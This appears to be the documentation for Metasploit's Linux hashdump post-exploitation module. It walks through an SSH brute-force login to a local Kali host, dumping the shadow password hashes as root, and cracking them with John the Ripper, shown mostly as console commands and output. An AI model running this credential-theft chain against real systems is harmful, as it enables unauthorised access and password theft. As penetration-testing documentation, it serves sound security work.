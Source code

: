 ## Verification Steps

  Example steps in this format:

  1. Start msfconsole
  2. Get a session via exploit of your choice
  3. Do: `use post/linux/gather/hashdump`
  4. Do: `set session <session>`
  5. Do: `run`
  6. You should see the contents of the shadow file

## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions -l`

## Scenarios

### Obtain Hashes

  Typical run against Kali, using ssh_login for initial shell

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username root
username => root
msf auxiliary(ssh_login) > set password "test"
password => example_password
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[-] SSH - Could not connect: The connection was refused by the remote host (127.0.0.1:22).
[!] No active DB -- Credential data will not be saved!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'root:test' 'uid=0(root) gid=0(root) groups=0(root) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:41521 -> 127.0.0.1:22) at 2016-09-14 00:12:36 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/hashdump 
msf post(hashdump) > set session 1
session => 1
msf post(hashdump) > exploit

[+] root:$6$eMImGFXb$3eYV4g315Qf2NA1aQ72yMwnM68PapXfCoP74kAb5vmQoqOz7sDTJQEMPUNNjZSEz.E4tXebqvt2iR3W50L8NX.:0:0:root:/root:/bin/bash
[+] test:$6$gsSmzVTM$vxnEAvs2jEhuFtq0yzgCm.p49RmirvyI6HvPXgbLZCtg1sLp5Q2U82U6Gv6i5hz/pcsz882rnLRAyIL24h3/N.:1000:1000:test,,,:/home/test:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20160914003144_default_127.0.0.1_linux.hashes_080983.txt
[*] Post module execution completed
  ```

  This module only works when you are root or have root permisions.  If you only have user permission, expect feedback:

  ```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username test
username => test
msf auxiliary(ssh_login) > set password test
password => test
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'test:test' 'uid=1000(test) gid=1000(test) groups=1000(test) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:44823 -> 127.0.0.1:22) at 2016-09-14 00:24:17 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/hashdump
msf post(hashdump) > set session 1
session => 1
msf post(hashdump) > exploit

[-] You must run this module as root!
[*] Post module execution completed
  ```
  ### Crack Hashes (John the Ripper)
  
The stored file can then have a password cracker used against it.  In this scenario, we'll use john (the ripper).
```
root@k:/git/metasploit-framework# john /root/.msf4/loot/20160914003144_default_127.0.0.1_linux.hashes_080983.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (test)
test             (root)
2g 0:00:00:00 DONE 1/3 (2016-09-14 00:32) 40.00g/s 460.0p/s 480.0c/s 480.0C/s test..oo
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```